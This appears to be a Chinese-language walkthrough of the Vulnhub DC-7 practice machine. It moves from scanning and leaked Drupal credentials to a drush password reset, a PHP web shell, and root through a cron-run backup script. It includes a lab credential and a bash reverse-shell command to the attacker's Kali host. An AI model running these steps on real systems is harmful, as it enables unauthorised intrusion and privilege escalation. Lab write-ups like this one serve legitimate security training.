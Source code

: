 ```yaml
---
title: 'DC-7 : Walkthrough'
date: 2020-05-20T12:38:33+08:00
author: 2hanx
layout: post
categories:
  - Vulnhub
---
```

### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机       | IP              |
| --------- | --------------- |
| 本机（Win10） | `192.168.1.105` |
| Kali      | `192.168.1.112` |
| DC-7      | `192.168.1.103` |

### 扫描端口和版本信息

`nmap -A 192.168.1.103`

![1.png](https://i.loli.net/2020/05/19/f3qDtLavP7eZYH8.png) 

### 访问 Web 并确定 Web 应用

根据 Nmap 扫描结果可知，Web 应用程序运行的是 **Drupal 8** CMS

![2.png](https://i.loli.net/2020/05/19/r93yAugMnNGq1jW.png) 

经过 OSINT 搜索得知该版本存在 **RCE** 漏洞，但是测试时并不能成功（现在看来原因是不支持 PHP）。此外作者提示我们不要用暴力破解和字典攻击，而是思考该虚拟机之外的东西，说的明白点，就是进行外网信息收集

> 谁知道我发现 `@DC7USER` 这串字符的重要性花了多久，╯︿╰ 

<pre><code class="line-numbers">If you need to resort to brute forcing or dictionary attacks, you probably won't succeed.

What you will need to do, is to think "outside" of the box.
</code></pre>

![3.png](https://i.loli.net/2020/05/19/gc8FVSTiX3xpYuz.png) 

在该项目的 _config.php_ 文件中存在一个用户名和密码：`dc7use:MdR3xOgB7#dW`。于是使用该账户进行 ssh 登录后，发现 _mbox_ 文本文件

![4.png](https://i.loli.net/2020/05/19/rvIJqBoK5zXD3Gh.png) 

根据文本信息，我们知道 root 账户的 `cron` 定时任务会定时运行 `/opt/scripts/backups.sh` 脚本

![5.png](https://i.loli.net/2020/05/19/6tHn8WZPv17Ns4b.png) 

不过通过查看该文本权限知道当前用户不具备写能力，并且该文件的用户组是 _www-data_，因此我们下一步就是切换到 _www-data_ 用户组里的用户，然后修改该脚本，这样 root 账户下的定时任务就会执行该脚本

由于系统不存在 `adduser` 工具导致新建账户的方法不可行，那么就只有修改 _www-data_ 账户的密码，因此使用系统中的 `drush`这一工具修改密码（查看环境变量）

`drush user-password admin --password="isdof123"`

![6.png](https://i.loli.net/2020/05/19/iRGCBWy7wZ4pbIk.png) 

使用 _admin_ 账户密码登录 Drupal 后台。尝试过上传图片马，不过发现不支持 PHP，那么接下来我们可以安装 [PHP 模块](https://ftp.drupal.org/files/projects/php-8.x-1.0.tar.gz)

![7.png](https://i.loli.net/2020/05/19/YCeDmOAln7HGoM2.png) 

![8.png](https://i.loli.net/2020/05/19/E5OIiPgjtnSNH7d.png) 

![9.png](https://i.loli.net/2020/05/19/7NuUpE9Zgtly3b4.png) 

### Getshell

既然已经安装好PHP模块，并且启用了该模块，那么我们就可以新建 php 文件，而不必上传图片马

![10.png](https://i.loli.net/2020/05/19/7D2UQhgd6W3tmxA.png) 

同时在 Kali 上监听 **7788** 端口，于是我们就可以拿到 _www-data_ 的 shell

![11.png](https://i.loli.net/2020/05/19/SgCRd9NEUXwKmqA.png) 

### 提权

之后执行命令修改 _backups.sh_ 脚本

`echo "bash -c 'bash -i >& /dev/tcp/192.168.1.112/7788 0>&1' " > /opt/scripts/backups.sh`

等待一段时间就可以取得 root 权限

![12.png](https://i.loli.net/2020/05/19/udAMemOJFE4jKqC.png)